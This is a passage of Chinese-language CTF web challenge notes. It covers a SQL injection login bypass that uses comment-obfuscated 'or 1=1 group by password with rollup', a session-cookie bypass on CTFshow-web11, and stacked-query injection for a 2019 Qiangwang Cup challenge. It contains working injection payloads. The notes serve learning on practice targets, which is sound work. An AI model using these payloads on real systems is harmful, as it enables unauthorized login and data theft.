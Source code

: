 于是在账号内输入

`admin’/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup;#`

密码空着就可登录成功

最关键的就是不用union和select!





### CTFshow-web11(本地session绕过)

进入题目，源码已给出

![image-20220516002509383](D:\Typora\note\CTF\web\challenge.assets\image-20220516002509383.png)



发现是本地session来验证密码，直接删掉cookie，不输入密码登录

获得flag



### [强网杯 2019]随便注(有意思的思路和方法)



`1' or 1=1;#`  证明存在sql注入

![image-20220519224923311](D:\Typora\note\CTF\web\challenge.assets\image-20220519224923311.png)

随便输个select

![image-20220519225157158](D:\Typora\note\CTF\web\challenge.assets\image-20220519225157158.png)

看见了正则匹配的字符

由于select不能用了，于是想到用table代替，但查数据库版本发现为10，用不了table

于是试试联合注入

![image-20220519225848310](D:\Typora\note\CTF\web\challenge.assets\image-20220519225848310.png)

注出列名

```mysql
1';show columns from `1919810931114514`;#
```

<font color='blured'>纯数字的表必须带上反引号!!!</font>

![image-20220519230109408](D:\Typora\note\CTF\web\challenge.assets\image-20220519230109408.png)

![image-20220519230908651](D:\Typora\note\CTF\web\challenge.assets\image-20220519230908651.png)

联合注入可以，绕过的<font color='pink'>骚</font>姿势就多了

#### 解法①
